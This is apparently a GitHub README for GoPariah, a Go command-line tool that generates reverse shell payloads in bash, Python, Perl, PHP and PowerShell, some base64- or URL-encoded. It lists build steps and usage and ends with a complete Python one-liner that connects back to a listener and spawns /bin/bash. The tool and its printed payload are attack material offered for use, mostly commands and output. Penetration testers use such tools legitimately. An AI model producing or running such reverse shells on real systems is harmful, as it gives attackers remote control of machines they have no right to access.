 <div align=center>
  <img src="https://miro.medium.com/v2/resize:fit:1358/0*rs9e2N81fxl4n-Dx.png" width=250px>
</div>

# GOPARIAH

GoPariah is a tool to generate <i>reverse shell payloads</i> on the fly. Instead of having to navigate to [revshells.com](https://revshells.com/) or the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) repository, you can easily generate different payloads from the CLI. It was inspired by [LazyPariah](https://github.com/octetsplicer/LAZYPARIAH) (a similar tool written in Ruby).

### Installing or Downloading Precompiled Binaries
You can build it from source by running the following commands:

```
$ git clone https://github.com/julio-cfa/gopariah.git
$ go build -o gopariah main.go
```
### Usage
```
$ ./gopariah --help
Usage: ./gopariah <revshell-type> <lhost> <lport> 

> Available revshells: 
  bash
  bash_urlencode
  python
  python3
  python_b64
  python3_b64
  python_urlencode
  python3_urlencode
  mkfifo
  mkfifo_urlencode
  perl
  perl_b64
  perl_urlencode
  php
  php_b64
  php_urlencode
  powershell
  powershell_b64
  powershell_urlencode
```
### Example
```
$ ./gopariah python3 127.0.0.1 9001
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
